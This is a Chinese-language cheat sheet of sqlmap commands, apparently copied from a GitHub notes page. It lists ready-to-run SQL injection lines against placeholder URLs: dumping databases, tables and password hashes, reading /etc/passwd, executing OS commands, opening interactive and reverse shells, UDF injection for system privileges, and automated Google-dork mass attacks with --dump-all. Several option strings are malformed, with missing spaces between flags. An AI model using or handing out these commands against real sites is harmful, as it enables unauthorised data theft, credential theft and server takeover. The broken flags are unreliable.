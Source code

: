 sqlmap工具
==========

sqlmap官网: https://github.com/sqlmapproject/sqlmap

sqlmap实例（摘抄自 https://github.com/LiveXY/elearning/blob/master/sqlmap%E5%B7%A5%E5%85%B7.md ）：

* 获取当前用户名称

    ```bash
    $sqlmap -u "http://url/news?id=1" --current-user
    ```

* 获取当前数据库名称

    ```bash
    $sqlmap -u "http://www.xxoo.com/news?id=1" --current-db
    ```

* 列表名

    ```bash
    $sqlmap -u "http://www.xxoo.com/news?id=1" --tables -D "db_name"
    ```

* 列字段

    ```bash
    $sqlmap -u "http://url/news?id=1" --columns -T "tablename" users-D "db_name" -v 0
    ````

* 获取字段内容

    ```bash
    $sqlmap -u "http://url/news?id=1" --dump -C "column_name" -T "table_name" -D "db_name" -v 0
    ```

*  smart智能 level 执行测试等级

    ```bash
    $sqlmap -u "http://url/news?id=1" --smart --level 3 --users
    ```

*  dbms 指定数据库类型

    ```bash
    $sqlmap -u "http://url/news?id=1" --dbms "Mysql" --users
    ```

* 列数据库用户

    ```bash
    $sqlmap -u "http://url/news?id=1" --users
    ```

* 列数据库

    ```bash
    $sqlmap -u "http://url/news?id=1" --dbs
    ```

* 数据库用户密码

    ```bash
    $sqlmap -u "http://url/news?id=1" --passwords
    ```

* 列出指定用户数据库密码

    ```bash
    $sqlmap -u "http://url/news?id=1" --passwords-U root -v 0
    ```

* 列出指定字段，列出20条

    ```bash
    $sqlmap -u "http://url/news?id=1"  --dump -C "password,user,id" -T "tablename" -D "db_name" --start 1 --stop 20
    ```

* 列出所有数据库所有表 

    ```bash
    $sqlmap -u "http://url/news?id=1" --dump-all -v 0
    ```

* 查看权限

    ```bash
    $sqlmap -u "http://url/news?id=1" --privileges
    ```

* 查看指定用户权限

    ```bash 
    $sqlmap -u "http://url/news?id=1" --privileges -U root
    ```

* 是否是数据库管理员 

    ```bash
    $sqlmap -u "http://url/news?id=1" --is-dba -v 1
    ```

* 枚举数据库用户角色  

    ```bash
    $sqlmap -u "http://url/news?id=1" --roles
    ```

* 导入用户自定义函数（获取系统权限！） 

    ```bash
    $sqlmap -u "http://url/news?id=1" --udf-inject
    ```

* 列出当前库所有表 

    ```bash
    $sqlmap -u "http://url/news?id=1" --dump-all --exclude-sysdbs -v 0
    ```

* union 查询表记录  

    ```bash
    $sqlmap -u "http://url/news?id=1" --union-cols
    ```

* cookie注入 

    ```bash
    $sqlmap -u "http://url/news?id=1" --cookie "COOKIE_VALUE"
    ```

* 获取banner信息 

    ```bash
    $sqlmap -u "http://url/news?id=1" -b
    ```

* post注入 

    ```bash
    $sqlmap -u "http://url/news?id=1" --data "id=3"
    ```

* 指纹判别数据库类型  

    ```bash
    $sqlmap -u "http://url/news?id=1" -v 1 -f
    ```

* 代理注入 

    ```bash
    $sqlmap -u "http://url/news?id=1" --proxy"http://127.0.0.1:8118"
    ```

* 指定关键词 

    ```bash
    $sqlmap -u "http://url/news?id=1" --string"STRING_ON_TRUE_PAGE"
    ```

* 执行指定sql命令 

    ```bash
    $sqlmap -u "http://url/news?id=1" --sql-shell
    ```

* Dump文件 

    ```bash 
    $sqlmap -u "http://url/news?id=1" --file /etc/passwd
    ```

* 执行系统命令 

    ```bash
    $sqlmap -u "http://url/news?id=1" --os-cmd=whoami
    ```

* 系统交互shell 

    ```bash
    $sqlmap -u "http://url/news?id=1" --os-shell
    ```

* 反弹shell  

    ```bash
    $sqlmap -u "http://url/news?id=1" --os-pwn
    ```

* 读取win系统注册表 

    ```bash
    $sqlmap -u "http://url/news?id=1" --reg-read
    ```

* 保存进度  

    ```bash
    $sqlmap -u "http://url/news?id=1" --dbs-o "sqlmap.log"
    ```

* 恢复已保存进度

    ```bash
    $ sqlmap -u "http://url/news?id=1" --dbs -o "sqlmap.log" --resume
    ```

* google搜索注入点自动 跑出所有字段攻击实例

    ```bash
    $sqlmap -g "google语法" --dump-all --batch 
    ```

* 带Cookie

    ```bash
    $sqlmap -u "http://url/news?id=1&Submit=Submit" --cookie="PHPSESSID=41aa833e6d0d28f489ff1ab5a7531406" --string="Surname" --dbms=mysql --users --password
    ```
